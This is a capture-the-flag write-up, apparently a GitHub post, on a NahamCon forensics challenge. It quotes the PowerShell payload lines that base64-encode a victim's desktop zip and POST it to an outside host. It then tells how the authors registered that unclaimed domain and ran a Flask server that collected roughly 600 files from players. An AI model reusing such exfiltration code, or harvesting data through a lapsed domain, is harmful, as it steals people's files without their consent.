



# How we turned a challenge against the players and creators

## About the Challenge

During the process of deobfuscating the powershell payload from [the IR challenge](../IR/IR.md), we noticed that the domain where all the encrypted files were being sent to was not yet claimed. Here's an explanation of how we received hundreds of decryptable files the CTF players sent us by running the encrypter.

## How we did it

---

After we deobfuscated the first stage of the payload, we stumbled across this powershell code:


At the second-last line, you can see the following piece of powershell code:

```ps
Invoke-Webrequest -Method Post -Uri "https://www.thepowershellhacker.com/exfiltration" -Body $body
```

---

This line sends a variable called `body` to `www.thepowershellhacker.com/exfiltration` in a post request.

The variable `body` is specified a bit earlier in the code:

```ps
$zipFileBytes = Get-Content -Path ("C:\Users\"+$user+"\Downloads\Desktop.zip") -Raw -Encoding Byte
$zipFileData = [Convert]::ToBase64String($zipFileBytes)
$body = ConvertTo-Json -InputObject @{file=$zipFileData}
```

Here we can clearly see that a zip file from the desktop (containg every file from the desktop) gets encoded in Base64, and then transferred into a Json object.

---

Out of curiosity, we quickly checked if the domain `thepowershellhacker.com` was claimed, expecting it to be.

However, to our surprise, it wasn't!
 _A dutch website checking to check if the domain is available for sale._

## What now?

---

After we claiming the domain, we went ahead and setted up a python web server, which would listen for incoming requests:

```python
from flask import Flask, request, jsonify
import time

app = Flask(__name__)

@app.route('/exfiltration', methods=['POST'])
def result():

    fileName = str(time.time()) + '.base64.zip'
    f = open(fileName, 'w+')

    receivedFile = request.get_json(force=True)['file']
    f.write(receivedFile)

    f.close()
    return "", 200

if __name__ == '__main__':
    app.run(host="127.0.0.1", port=2001)
```

This python webserver would receive the base64 encoded payload from the body, pull it out of the json object, and put it in a file.

## What did we receive?

---

After the Nahamcon CTF ended, we went ahead and checked how many files we received:


We reived a total of 600 files, that's insane!
Sadly, after mass decrypting all the files we received, we came to the conclusion that there are _only_ 33 files that are not from this ctf.
Here's a list of all the files that were not part of the CTF challenge:

```
Ableton Live 11 Suite.lnk
asdf
ASDF
asdf.ps1
Autoruns.lnk
available_packages.txt
Bitdefender.lnk
config.xml
desktop.ini
failed_packages.txt
fakenet_logs.lnk
file.txt
flare-vm-4
Ghost Toolbox.lnk
HitmanPro.Alert.lnk
imac.py
kanker.txt
New Text Document.txt
nice.ps1
NPE.lnk
ProcessExplorer.lnk
PSDecode.ps1
QQ.lnk
readme.txt
TCPView.lnk
Telegram.lnk
test.txt
tes.txt
Tools.lnk
UpdateHealthTools.001.etl
UpdateHealthTools.001.evtx
x32dbg.lnk
x64dbg.lnk
```

A lot of these files are ending in `.lnk`, which means they are windows file shortcuts. They're not interesting.

After manually going through all the files, we concluded that nothing really of interest was captured. This means that almost everyone was smart enough to not run this on their own desktop environment, but in the VM supplied by the Nahamcon CTF.

We'd also like to note that we didn't receive anything that could be identified back to a specific users, nor did we receive any sensitive files. Next to that, we'll destroy all the files and logs we've received.

## Was this a waste of time?

No, this absolutely wasn't a waste of our time and resources. First of all, the CTF challenge in itself was already pretty fun to solve. Next to that, we quite enjoyed the process of making all of our quick and dirty tools. From the python web server, to the mass decoders. We're also delighted to see that almost everyone ran the "ransomware" in the Virtual Machine supplied by the CTF organisers, on not on their own machine.

We absolutely loved the process we went through by making this.

---

> _We want to thank Nahamsec and John Hammond for making and hosting this Capture the Flag tournament. And we'd also like to thank `@awesome10billion#1164` for making the forensics challenge. We quite enjoyed it._

###### Written by Crunch
